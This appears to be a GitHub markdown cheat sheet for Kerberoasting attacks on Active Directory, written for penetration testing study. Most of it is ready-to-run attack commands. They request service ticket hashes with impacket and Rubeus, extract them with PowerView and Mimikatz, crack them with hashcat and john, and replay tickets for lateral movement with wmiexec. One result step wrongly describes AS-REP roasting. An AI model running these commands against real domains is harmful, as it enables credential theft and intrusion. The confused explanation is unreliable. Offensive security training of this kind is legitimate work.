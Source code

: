 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
## **Perform Kerberoasting on Kali:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
    
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## **Perform Kerberoasting on `Windows` (joined domain):**
By using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using PowerView to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
